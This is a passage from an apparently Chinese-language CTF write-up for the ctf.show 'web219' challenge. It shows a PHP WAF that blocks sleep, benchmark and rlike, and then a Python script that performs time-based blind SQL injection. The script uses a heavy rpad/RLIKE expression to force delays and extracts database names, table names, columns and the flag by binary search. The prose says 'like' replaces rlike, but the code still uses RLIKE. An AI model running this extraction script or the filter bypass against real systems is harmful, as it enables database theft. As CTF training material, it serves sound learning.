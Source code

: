 所以这里推荐使用脚本 速度会比tamper快多了

## web219  过滤 rlike  笛卡尔积

```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike/i',$str);
    }   
```

这里可以发现 rlike也被过滤了 但是其实上面的payload 不需要rlike 使用 like也可以

所以我们修改一下

```cobol
import time
 
import requests
 
 
url = "http://1eee55e7-fb80-48ce-8a22-71f2d1234f2c.challenge.ctf.show/api/"
bypass = """(concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b')"""
# payload = "1) or if(ascii(substr((select database()),{0},1))>{1},{2},0)-- +"
# payload = "1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},{2},0)-- +"
# payload = "1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxc'),{0},1))>{1},{2},0)-- +"
payload = "1) or if(ascii(substr((select group_concat(id,'---',flagaac)from ctfshow_flagxc),{0},1))>{1},{2},0)-- +"
flag = ''
 
for i in range(1,100):
    high = 128
    low = 32
    mid = (high+low)//2
    while(high>low):
        payload1=payload.format(i,mid,bypass)
        # print(payload1)
        # print(payload1)
        data = {
            'ip':payload1,
            'debug':0
        }
        start_time=time.time()
        re = requests.post(url=url,data=data)
        end_time=time.time()
        subtime=end_time-start_time
        # print(subtime)
        if subtime > 0.9:
            low=mid+1
        else:
            high=mid
        mid=(low+high)//2
        if(chr(mid)==" "):
            break
    flag+=chr(mid)
    print(flag)
 
 
```
